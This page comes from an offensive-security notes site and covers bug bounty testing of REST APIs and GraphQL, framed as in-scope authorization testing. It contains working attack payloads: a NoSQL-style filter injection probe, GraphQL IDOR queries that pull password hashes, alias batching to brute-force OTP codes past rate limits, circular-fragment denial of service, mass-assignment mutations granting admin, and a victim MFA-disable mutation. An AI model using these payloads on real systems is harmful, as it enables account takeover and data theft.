

repository: 0x3xp10i73r/offsec-vault · page: web-bugbounty/api-graphql-modern-web/index.html · generator: mkdocs

---
title: "APIs, GraphQL, WebSockets & File Uploads"
description: "REST API security, GraphQL introspection and batching attacks, WebSocket hijacking, and file upload to RCE techniques"
tags:
  - Bug Bounty
  - API
  - GraphQL
  - File Upload
  - WebSocket
---

# APIs, GraphQL, WebSockets & File Uploads

!!! note "What this page is doing"
    API testing is inventory plus authorization: learn the schema and versions, then ask whether each object, field, mutation, upload and message is protected for the caller and tenant. Prefer a canary record over broad data extraction.

---

## 1. REST API Testing Methodology

=== " Discovery & Documentation Mining"

    ```text
    # Documentation and schema paths to check manually, one request at a time.
    /swagger-ui.html       /swagger/v1/swagger.json  /v2/api-docs
    /v3/api-docs           /api-docs                 /openapi.json
    /redoc                 /graphql                  /graphiql
    /playground            /api/v1/                  /api/v2/
    /rest/                 /internal/                /.well-known/openid-configuration

    # If v2 exists, compare the same object and authorization in v1, v3,
    # beta, internal, legacy, mobile and staging versions where in scope.
    ```

    ```bash
    # Pull API paths from an approved mobile lab artifact.
    apktool d app.apk -o app_decoded
    grep -RInE 'https?://[a-z0-9._/-]+' app_decoded \
      | sort -u

    # Extract routes from JavaScript bundles collected during recon.
    xnLinkFinder -i js_urls.txt -sf <DOMAIN> -o api_endpoints.txt
    ```

=== " OWASP API Top 10 Quick Tests"

    ```text
    API1 Broken Object Level Authorization (BOLA) -> see IDOR page
    API2 Broken Authentication -> weak JWT, no token expiry, API keys in URLs
    API3 Broken Object Property Level Auth (BOPLA)-> mass assignment, hidden fields
    API4 Unrestricted Resource Consumption -> no pagination limit (?limit=999999)
    API5 Broken Function Level Authorization -> call admin-only endpoints as normal user
    API6 Unrestricted Access to Sensitive Flows -> no rate limit on signup/OTP/reset
    API7 SSRF -> see SSRF page
    API8 Security Misconfiguration -> CORS *, debug endpoints, verbose errors
    API9 Improper Inventory Management -> old/shadow API versions still live
    API10 Unsafe Consumption of 3rd-Party APIs -> webhook/integration trust issues
    # Always try:
    ?limit=999999 ?page=0 ?offset=-1 ?sort=password ?fields=* ?include=all
    ?filter[password][$ne]= ?expand=all ?debug=1 ?admin=1
    # Try HTTP methods: OPTIONS may reveal allowed methods; HEAD may bypass body validation
    # Remove auth header entirely; use an expired token; use a token from ANOTHER tenant
    ```

---

## 2. GraphQL Deep Dive

=== " Introspection & Schema Recovery"

    ```graphql
    # Full introspection query (often disabled — try these alternatives)
    { __schema { types { name fields { name type { name kind ofType { name } } } } } }
    # If introspection is blocked:
    # 1. Field suggestion errors: send "usr" -> "Did you mean 'user'?"
    # 2. GraphQL Voyager / clairvoyance for schema recovery via suggestions
    # 3. Check for a public .graphql schema file in the repo / source maps
    # 4. Try GET-based introspection on /graphql?query={__schema{...}}
    ```

    ```bash
    # Automated schema dump & analysis
    python3 graphql-cop.py -t https://<DOMAIN>/graphql
    clairvoyance -o schema.json https://<DOMAIN>/graphql
    # Then explore with graphql-voyager / Altair / GraphiQL
    ```

=== " GraphQL Attack Patterns"

    ```graphql
    # 1. IDOR via node() global object lookup
    { node(id: "VXNlcjoxMzM3") { ... on User { email passwordHash role } } }
    # base64 "User:1337" -> decode, change ID, re-encode
    # 2. Alias batching -> brute force OTP/2FA in ONE request (bypasses rate limits!)
    mutation {
      a1: verifyOtp(otp: "000000") { token }
      a2: verifyOtp(otp: "000001") { token }
      a3: verifyOtp(otp: "000002") { token }
      # ... up to 1000 aliases in a single HTTP request
    }
    # 3. Query batching (array of operations) for rate-limit bypass
    [{"query":"mutation{redeem(code:\"X\")}"},{"query":"mutation{redeem(code:\"X\")}"}]
    # 4. Deep recursion / circular fragments -> DoS
    fragment A on User { friends { ...B } } fragment B on User { friends { ...A } }
    # 5. Field stuffing for hidden fields
    { user(id: 1) { id email role isAdmin passwordHash apiKey mfaSecret internalNotes } }
    # 6. Mutation-based mass assignment
    mutation { updateUser(input: {id: 1, role: ADMIN, isVerified: true}) { user { id role } } }
    # 7. Disable 2FA / change email via mutations that are not mirrored in REST
    mutation { disableMfa(userId: <VICTIM_ID>) { success } }
    ```

---
